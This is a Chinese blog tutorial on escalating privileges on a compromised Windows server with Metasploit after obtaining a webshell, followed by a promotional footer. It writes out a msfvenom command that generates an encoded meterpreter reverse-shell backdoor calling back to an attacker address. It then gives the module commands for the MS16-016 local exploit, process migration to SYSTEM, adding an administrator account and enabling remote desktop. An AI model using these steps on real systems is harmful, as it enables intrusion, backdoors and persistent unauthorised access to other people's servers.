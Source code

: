 ```yaml
---
layout: post
category: curleyg-code-hack
title: MSF提权
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: MSF提权
lock: need
---
```


# MSF提权

在WEB渗透中当我们拿到webshell了，我们可以试试用MSF(metasploit)来进行提权，在MSF里meterpreter很强大的！

我们先用msfvenom生成一个EXE的木马后门。

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b '\x00' LHOST=192.168.1.7 LPORT=4444 -f exe > abc.exe
```

![img](https://img-blog.csdnimg.cn/20190106221604920.jpg)

然后在到MSF根据刚才配置的木马后门进行监听...

然后在把木马上传到服务器（受害者）的机器里，必须上传到可读可写的目录下

![img](https://img-blog.csdnimg.cn/20190106221651573.jpg)

比如这里我吧abc.exe上传到了C:\users\leak\desktop\目录下，

abc.exe就是我刚才生成的后门。

![img](https://img-blog.csdnimg.cn/20190106221723788.jpg)

然后在执行我们的后门，可以看见MSF弹回了一个session 1(会话连接)。

说明我们后门程序成功执行起来了，当然你也可以在webshell执行的，

但必须的有一点执行的权限

![img](https://img-blog.csdnimg.cn/2019010622180692.jpg)

getuid //可以看见我们的权限很低的，一般都是user权限的，

但也遇到过某些服务器执行后就直接是system最高权限。像这种我们就直接加用户啦。

这里我们是user权限，我们要把它提升到system权限。Windows最高权限

![img](https://img-blog.csdnimg.cn/20190106221851139.jpg)

接着我们输入命令

background   //把你当前的metasploit shell转为后台执行。

search ms16  // 搜索关键字相关的漏洞

.....然后我选择了MS16-016这个漏洞在进行提权

use exploit/windows/local/ms16_016_webdav //  选择漏洞

![img](https://img-blog.csdnimg.cn/20190106221937551.jpg)

show options  //查看漏洞里边要设置的参数

可以看见只有一个SESSION参数要设置 

![img](https://img-blog.csdnimg.cn/20190106222107730.jpg)

set  SESSION 1 // 设置会刚才我们后门连接的ID号 1

exploit //执行提权...

可以看见成功的吧漏洞利用到了PID为692的进程中...

虽然提权成功了 但你getuid下还是看见的是user权限

![img](https://img-blog.csdnimg.cn/2019010622214883.jpg)

ps一下查看进程

根据刚才的提示找到PID 692的进程

可以看见确实是system权限

![img](https://img-blog.csdnimg.cn/20190106222225510.jpg)

所以我们还要用到migrate 命令 //迁移到一个指定的进程ID。

migrate 692  //

在getuid下可以看见为system权限啦

提权成功了

![img](https://img-blog.csdnimg.cn/20190106222259401.jpg)

既然有了system权限 那我们在添加账号hack

添加为管理员组

![img](https://img-blog.csdnimg.cn/20190106222350540.jpg)

用Nmap扫下并没有开启远程登陆3389

![img](https://img-blog.csdnimg.cn/20190106222445235.jpg)

run getgui -e  //开启目标主机3389  貌似这条MSF命令只对2003的系统有效 执行几次都没成功 

所以就用cmd命令开了3389端口

![img](https://img-blog.csdnimg.cn/20190106222845638.jpg)

提权成功，登录服务器。。。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
